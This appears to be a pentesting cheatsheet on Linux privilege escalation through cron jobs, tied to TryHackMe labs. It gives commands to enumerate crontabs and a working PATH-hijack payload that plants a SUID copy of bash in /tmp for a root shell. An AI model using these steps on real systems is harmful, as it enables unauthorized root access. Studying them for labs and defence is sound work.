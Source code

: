 ```yaml
---
title: Cheatsheet - Cronjob
categories: [Cheatsheet, Linux Privilege Escalation]
date: 2022-06-17
tags: [linux-priv-esc/cronjob, cheatsheet/linux]
---
```


# View cronjobs
```
crontab -l
ls /etc/*cron*
cat /etc/cron*
cat /etc/at*
ls -alh /var/spool/cron
cat /var/spool/cron/crontabs/root 
cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"
```



# Cron PATH
- For example, inside _/etc/crontab_ you can find the PATH: 
	```
	PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin	
	```
- If inside this crontab the root user tries to execute some command or script without setting the path. For example: _* * * * root overwrite.sh_ Then, you can get a root shell by using:
	```
	echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
	#Wait cron job to be executed
	/tmp/bash -p #The effective uid and gid to be set to the real uid and gid
	```

# Writable Script/Executable
- Overwrite it to spawn root shell


# Some Useful Code
- [Spawn shell Usually done to priv esc](Reverse%20Shell#Spawn%20shell%20Usually%20done%20to%20priv%20esc)

# Some examples
- Cronjob executing binary where its PATH or itself is writable
	- TryHackMe Overpass - Privilege Escalation using Linpeas
- Cronjob + TAR wildcard
	- TryHackMe SkyNet - Privilege Escalatio via Cronjob + [TAR wildcard](http://yufongg.github.io/posts/TAR-+-Wildcard/)
